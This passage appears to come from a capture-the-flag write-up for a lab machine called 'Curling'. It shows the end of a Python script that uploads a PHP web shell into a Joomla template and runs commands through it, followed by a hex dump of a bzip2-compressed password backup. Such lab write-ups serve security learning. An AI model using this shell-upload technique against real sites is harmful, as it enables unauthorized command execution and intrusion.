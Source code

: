```py
        'jform[filename]':'/'+filename
    }
    shreq = session.post(shlink, data=shdata_up)
    path2shell = '/templates/beez3/jsstrings.php?x=id'
    print '[+] Shell is ready to use: ' + str(path2shell)
    print '[+] Checking:'
    shreq = session.get(target + path2shell)
    shresp = shreq.text

    print shresp

print '\n[+] Module finished.'
```
*Executing the python script*

![Img](/assets/posts_details/Curling/images/rce.png "Img")

I couldn't read ``user.txt`` as I was only ``www-data`` so I decided to focus on ``password_backup``, which turns out to be a bzip2 file (by the file headers).

```console
parallels@ubuntu:~/Desktop/Curling$ cat backup.bz2
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48
```
